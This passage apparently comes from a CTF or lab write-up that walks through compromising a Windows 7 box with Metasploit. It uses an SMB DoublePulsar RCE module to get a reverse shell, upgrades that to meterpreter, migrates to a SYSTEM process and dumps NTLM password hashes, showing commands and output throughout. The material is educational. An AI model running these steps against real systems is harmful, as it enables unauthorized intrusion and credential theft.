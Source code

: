 ```


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
```

Set rhost to the box ip and lhost to local ip and execute for a successful shell. Background the shell using CTRL + Z so we can upgrade the shell to a meterpreter shell. 

### Privilege Escalation

In the metasploit console, use this command:
```
use post/multi/manage/shell_to_meterpreter
```

Options show we need to provide an lhost and a session id. To get session id's, use:
```
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type               Information                        Connection
  --  ----  ----               -----------                        ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [  10.2.11.19:4444 -> 10.10.183.3:49
                               Version 6.1.7601] -----            171 (10.10.183.3)
```

Set sessions to 1 and lhost to local ip. Run the exploit. If successful, use the sessions command to find the session id of the meterpreter session and use the following command to foreground the session.
```
sessions -i {session id}
```

We have successfully escalated to SYSTEM:
```
meterpreter > getsystem
[-] Already running as SYSTEM
```

Use the ps command to view all running processes. Our goal is to find a process running as system and migrate to it using the migrate {process_id} command.
```
meterpreter > migrate 2904
[*] Migrating from 1104 to 2904...
[*] Migration completed successfully.
```

### Post Exploitation

Now that we have successfully elevated our privileges, we can search for the required flags. Using hashdump, we can get a list of hashed passwords available on the box.
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
